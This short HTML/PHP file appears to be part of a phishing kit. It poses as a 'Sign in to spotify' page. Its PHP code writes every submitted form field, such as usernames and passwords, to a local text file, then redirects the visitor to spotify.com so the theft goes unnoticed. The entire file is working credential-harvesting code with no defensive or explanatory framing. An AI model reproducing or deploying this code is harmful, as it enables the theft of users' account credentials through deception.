 <!DOCTYPE html>
<html>
<head>
	<title>Sign in to spotify</title>
</head>
<body>
<?php
header ('Location: spotify.com ');
$handle = fopen("spotify.txt.txt", "a");
foreach($_POST as $variable => $value) {
	fwrite($handle, $variable);
	fwrite($handle, "=");
	fwrite($handle, $value);
	fwrite($handle, "\r\n");}
fwrite($handle, "===============\r\n");
fclose($handle);
exit;
?>
</body>
</html>